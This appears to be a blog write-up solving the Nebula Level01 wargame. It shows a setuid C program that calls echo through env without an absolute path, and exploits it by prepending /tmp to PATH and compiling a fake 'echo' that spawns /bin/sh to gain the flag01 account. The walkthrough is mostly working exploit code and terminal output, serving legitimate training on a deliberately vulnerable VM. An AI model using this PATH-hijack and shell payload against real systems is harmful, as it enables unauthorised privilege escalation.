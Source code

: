 ```yaml
---
title: "Exploit Exercises - Nebula Level01"
date: "2015-07-14"
slug: "exploit-exercises-nebula-level01"
Categories:
- Exploit Exercises
---
```


The next level, [Level01], provides some C code for the user to evaluate. The code contains a vulnerability that allows arbitrary programs to be executed. This post will outline the steps I took to solve the challenge.

<!--more-->

I started by reading through the source code in order to locate the vulnerability: 

	#include <stdlib.h>
	#include <unistd.h>
	#include <string.h>
	#include <sys/types.h>
	#include <stdio.h>

	int main(int argc, char **argv, char **envp)
	{
  	gid_t gid;
  	uid_t uid;
  	gid = getegid();
  	uid = geteuid();

  	setresgid(gid, gid, gid);
  	setresuid(uid, uid, uid);

  	system("/usr/bin/env echo and now what?");
	}

Almost immediately, I noticed that "echo" is being called without the absolute path. This is a major security vulnerability because the script will rely on the environment variables of the current shell (which can be tampered with). 

Let's modify our path to include `/tmp/`:

	level01@nebula:/home/flag01$ PATH=/tmp:$PATH
	level01@nebula:/home/flag01$ export PATH
	level01@nebula:/home/flag01$ echo $PATH
	/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games

Now that `/tmp` is in the current path, we can create our own "echo" command. I have included C code below to spawn a shell. I used this code extensively in my [OSCP] studies as my payload when exploiting Linux/Unix boxes. 

	#include <unistd.h>

	int main() {
        	char *args[2];
        	args[0] = "/bin/sh";
        	args[1] = NULL;
        	execve(args[0], args, NULL);
	}

A nice write-up on the code can be found [here] if you are curious about the creation and execution.

After creating the new "echo" program, I need to compile the code.

	level01@nebula:/tmp$ gcc echo.c -o echo
	level01@nebula:/tmp$ ls
	echo echo.c vmware-root

Now I can call the original script, which will now run our "echo" program: 


	level01@nebula:/home/flag01$ id
	uid=1002(level01) gid=1002(level01) groups=1002(level01)
	level01@nebula:/home/flag01$ ./flag01
	sh-4.2$ id
	uid=998(flag01) gid=1002(level01) groups=998(flag01),1002(level01)
	sh-4.2$ getflag
	You have successfully executed getflag on a target account

Success!

[Mike][]

[Level01]: https://exploit-exercises.com/nebula/level01/ "Level01"
[OSCP]: https://www.offensive-security.com/information-security-certifications/oscp-offensive-security-certified-professional/ "OSCP"
[here]: http://www.kernel-panic.it/security/shellcode/shellcode5.html "here"
[Mike]: /contact "Contact Mike"
